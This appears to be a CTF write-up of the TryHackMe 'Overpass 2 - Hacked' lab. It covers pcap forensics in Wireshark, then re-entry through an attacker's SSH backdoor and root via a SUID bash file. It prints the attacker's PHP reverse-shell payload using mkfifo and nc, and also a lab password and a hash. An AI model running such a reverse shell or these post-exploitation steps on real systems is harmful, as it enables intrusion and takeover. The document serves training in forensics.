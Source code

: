 ```yaml
---
title: "Overpass 2 - Hacked"
date: 2023-07-31 20:50:00 +0300
image: /assets/img/Posts/sqli.png
categories: [Tryhackme, Easy]
tags: [Network forensics, wireshark, SUID, backdoor, ssh, pcap, packet capture]
---
```


| Room       | [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)    |
| ---------- | -------------------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)                       |
| Difficulty | Easy                                                                 |

# Let's get started
This room focuses on analyzing the packet capture file that was saved by the soc team after noticing suspicious traffic in their network. It is aimed to help the learner grow their skills in network forensics, one of the major categories of the digital forensics domain.

Forensics skills will be vital to help uncover the attack vector the attacker used, at which endpoint, the exploit used, status of the attack and the impact the attack had to the organization.

## Forensics - Analyse the PCAP
We are presented with the PCAP file that we believe captured the suspicious traffic as highlighted. It is our duty to analyse it to understand the attack. We are going to use wireshark to open and analyse the traffic. 
But first we need to check the integrity of the file. We are being provided with the MD5sum of the file, so we are going to reproduce the MD5Sum and compare to see if it is original, not modified.

>NOTE: It is part of forensics to always confirm the integrity of the files or data shared.
{: .prompt-info }
It is evident that the hash we got after generating the MD5Sum of the file looks similar to the hash provided in the TryHackMe platform.

![image](/assets/img/Posts/overpass2/md5sum.png)

We proceed to opening the file in wireshark to begin our analysis.

![image](/assets/img/Posts/overpass2/wireshark-1.png)

From the look of things from the above image, we see there are several TCP and HTTP requests. Checking through clearly we see a get request made from host ip 192.168.170.145 on the /development directory on the server that is probably running on the host 192.128.170.159.

![image](/assets/img/Posts/overpass2/wireshark.png)

From the IPs of the Hosts captured we can conclude that the victim and the attacker were on the same network. 
Going forward we saw here there is also a POST request made on the directory /development/upload.php, we proceed to checking that particular packet. We do so by right-clicking then  follow->HTTP stream.

![image](/assets/img/Posts/overpass2/analysis-2.png)

Checking on the nature of the request, we see that the attacker uploaded uploaded a file payload.php  that had the contents:
```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
From the file extension and the contents of the file, we can tell that the attacker did upload a `php` code the used `exec()` which can be used to execute the system commands. In this case the command  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f` spawns a reverse shell and forwards to the attacker IP provided in the payload `192.168.170.145` to the listening port that the attacker provided `4242`.

After making this `POST` request, the attacker proceeded to do a `GET` request which was meant to execute the `payload.php` file uploaded with an intention of getting a reverse connection from the victim machine.

![image](/assets/img/Posts/overpass2/analysis-3.png)

After GETting the `payload.php` file, we see some trailing `TCP` connection to the port `4242` which had earlier been specified on the payload, which signifies the reverse connection was successful.
We can confirm by following one of `TCP` packets.

![image](/assets/img/Posts/overpass2/analysis-4.png)

The attacker got a shell onto the server as the www-data user, executed the python command `python3 -c ‘import pty;pty.spawn(“/bin/bash”)’` to stabilize the shell.
Then switched the user using the command su james to change the user to james and provided the password which we can see is `whenevernoteartinstant`.
From here we see the attacker proceeded to run the command `sudo -l` to list the commands or binaries that the user james can run with sudo. We find that the attacker can run `ALL` the commands in the server using the user james (BAD PRACTICE).
`(ALL : ALL) ALL`
After seeing that the attacker directly went to dump the user password hashes from the /etc/shadow file.

![image](/assets/img/Posts/overpass2/analysis-pass.png)

Then goes on to cloning the SSH backdoor onto the server obviously to maintain their stay on the server, technically we say persistence:).

![image](/assets/img/Posts/overpass2/analysis-clone.png)

We can try to access the GitHub repository the attacker cloned (SSH backdoor) from the url https://github.com/NinjaJc01/ssh-backdoor. The payload is written in `go` language.

![image](/assets/img/Posts/overpass2/analysis-github-repo.png)

Checking through the main function of the `main.go` file, we find a clue of what the code is doing. The backdoor tends to open the port `2222` for ssh connection to the attackers machine. then we see a default hash at the top and the different arguments that the attacker could use to deploy the backdoor.

![image](/assets/img/Posts/overpass2/analysis-codereview.png)

Going down the code we find there is a hardcoded string of what looks like a salt on the hash of the hash the attacker provides.

![image](/assets/img/Posts/overpass2/analysis-salt.png)

Going back to the packet capture analysis, we find that the attacker ran the backdoor with the arguments -a which as we have seen helps him enter his own password hash.
attacker hash from the pcap file: 
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
![image](/assets/img/Posts/overpass2/analysis-salt-attacker.png)\

With the hash and the salt we can proceed to crack them using `hashcat` to see the password the attacker set in his backdoor.

![image](/assets/img/Posts/overpass2/pass.png)

## Attack - Get back in! 
Now that we have the SSH credentials of the attacker backdoor, we can try to log into the server.
`SSH port - 2222`
Trying to login we get this error.

![image](/assets/img/Posts/overpass2/ssh-issue.png)

On a quick google search we get a solution to the problem. we add `-o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa` to our ssh command and we get a shell.

![image](/assets/img/Posts/overpass2/ssh-issue-solver.png)

![image](/assets/img/Posts/overpass2/shell.png)

we access the user flag in `james’s home` directory.

![image](/assets/img/Posts/overpass2/userflag.png)

Re-running the `sudo -l` command, on the server since we saw before on the captured traffic that james could run `ALL` the commands with sudo. It seems it is not the case anymore.
Running a `ls -la` command on james’s home directory, we find  a file `.suid_bash` with a `SUID bit`, running it with `-p` gives us the root shell.

![image](/assets/img/Posts/overpass2/suid-blog.png)

![image](/assets/img/Posts/overpass2/rootflag.png)

Enjoy :)